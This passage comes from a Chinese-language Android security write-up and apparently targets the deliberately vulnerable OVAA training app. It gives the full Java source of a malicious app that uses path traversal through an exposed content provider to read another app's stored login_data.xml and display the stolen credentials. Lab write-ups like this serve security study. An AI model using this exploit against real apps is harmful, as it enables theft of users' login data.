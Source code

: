 **主活动类:**

```
package com.evil.eviltheftfileparttwo;import androidx.appcompat.app.AppCompatActivity;import android.content.ContentResolver;
import android.net.Uri;
import android.os.Bundle;
import android.os.Environment;
import android.util.Log;
import android.widget.TextView;import java.io.BufferedReader;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStreamReader;
import java.util.ArrayList;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        TextView stealer = findViewById(R.id.stealedbuffer);
        stealer.setText("");
        try {
            ArrayList<String> mylist = new ArrayList<String>();
            File path = Environment.getExternalStorageDirectory();
            Log.d("PATHssss",path.toString());
            String pathtraversal = "..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Foversecured.ovaa%2Fshared_prefs%2Flogin_data.xml";
            ContentResolver cr = this.getContentResolver();
            FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse("content://oversecured.ovaa.theftoverwrite/"+pathtraversal));
            BufferedReader r = new BufferedReader(new InputStreamReader(fis));
            String textss;
            String mLine;
            if ((mLine = r.readLine()) != null){
                stealer.append("We finally got it!\n\n");
            }
            while ((mLine = r.readLine()) != null) {
                stealer.append(mLine+"\n");
            }} catch (Throwable th){
            throw new RuntimeException(th);
        }
    }}
```

**在此之后，我们只需生成恶意应用程序，就可以立即得到我们想要的东西。将显示登录数据！**

**![](img/ae592c7b54a42ad4f5c5470c5776045a.png)**

